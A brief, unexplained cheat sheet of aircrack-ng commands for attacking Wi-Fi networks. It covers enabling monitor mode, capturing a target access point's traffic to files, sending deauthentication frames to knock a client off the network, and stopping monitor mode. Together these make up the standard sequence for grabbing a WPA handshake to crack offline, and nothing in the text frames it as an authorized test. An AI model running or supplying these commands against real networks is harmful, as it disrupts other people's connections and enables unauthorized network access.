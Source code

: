 Detect wlans

```bash
airmon-ng
```

Start monitor mode

```bash
airmon-ng start wlan1
ifconfig
airodump-ng wlan1mon
airodump-ng -w /path/to/save/files/ -c 1 --bssid WL:AN:MAC wlan1mon
aireplay-ng -0 10 -a WLAN:MAC -c DEVICE:MAC wlan1mon
```

Stop monitor mode

```bash
airmon-ng stop wlan1mon
```

